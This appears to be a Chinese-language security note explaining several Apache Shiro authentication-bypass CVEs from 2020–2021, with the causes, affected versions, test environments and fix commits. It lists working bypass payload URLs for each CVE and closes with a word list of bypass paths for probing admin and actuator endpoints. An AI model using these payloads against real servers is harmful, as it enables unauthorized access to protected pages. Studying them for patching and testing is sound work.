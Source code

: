 # Shiro权限绕过

## CVE-2020-1957

**payload：/demo/..;/admin/index**

简单的说因为有；导致截取了分号前面，也就是我们这里的 /demo/.. 然后和 /demo/** 匹配上了。

然后成功绕过shiro，在spring层;被忽视，然后成功匹配路径。

### 环境搭建

```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.5.1</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.5.1</version>
</dependency>
```

### 利用条件

- Apache Shiro <= 1.5.1

- Spring 框架中只使用 Shiro 鉴权

  

### 漏洞修复

https://github.com/apache/shiro/commit/3708d7907016bf2fa12691dff6ff0def1249b8ce#diff-98f7bc5c0391389e56531f8b3754081aR139

将原先的 request.getRequestURI() 替换成了 getContextPath() 、getServletPath() 、getPathInfo() 的组合，这样就能获取我们想要的了，从而避免因为获取差异性而导致绕过，这样就与返回给 springboot 的路径保持一致了。

修复了因为;导致的截断问题。

## CVE-2020-11989

**payload：/admin/%252fxxx**

漏洞产生的原因是因为 Spring 与 Shiro 之间对 url 的处理不同从而导致权限绕过.

简单的说就是shiro层进行了2次url解码，spring层使用了一次。

### 环境搭建

```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.5.2</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.5.2</version>
</dependency>
```

### 利用条件

- Apache Shiro <= 1.5.2
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

在 Shiro 1.5.3 版本中对getPathWithinApplication进行了修改，取消了url 解码的函数.



## CVE-2020-13933

**payload：/admin/%3Bxx**

简单的说就是url解码了之后如果存在；就截断前面的路径并且会将截断的uri最后的 / 进行去除,然后就匹配不到/admin/*,因为是/admin

所以我们只要利用 **/admin/%3Bxx**这样的结构就可以绕过 Shiro 的权限校验。

### 环境搭建

同CVE-2020-11989

pom.xml 中版本修改为1.5.3 

### 利用条件

- Apache Shiro < 1.6.0
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

https://github.com/apache/shiro/commit/dc194fc977ab6cfbf3c1ecb085e2bac5db14af6d

增加了 InvalidRequestFilter 类来对一些特殊情况进行处理，遇到特殊字符直接400，同时增加了 /** 的规则，来防止一些匹配不到的情况。

## CVE-2020-17523

**payload：/admin/%20**

简单的说就是我们传递/admin/%20 url解编之后在进行匹配的时候去除了空格，/admin/ 与/admin/*不匹配造成绕过。

### 漏洞环境

同 CVE-2020-11989 环境

pom.xml 中版本修改为 1.7.0 或及以下即可 

### 利用条件

- Apache Shiro < 1.7.1
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

增加了选项，tokenizeToStringArray 函数中默认不会进行 trim,默认情况下 token = token.trim() 并不会被执行


## CVE-2021-41303

![image](https://user-images.githubusercontent.com/63966847/133890465-dfbd4a6b-524d-4f5a-96d6-2b2dcb10e27f.png)

## 字典

```
/index/..;/admin/index
/login/..;/admin/index
/index/..;/admin/
/login/..;/admin/
/login/..;/json

/actuator/;/env/
/admin/;/xxx
/admin/%3b/xxx
/admin/%252fxxx
/admin/%3Bxx
/admin/%20
```



>参考：
>
>https://www.yuque.com/tianxiadamutou/zcfd4v/emcdeq
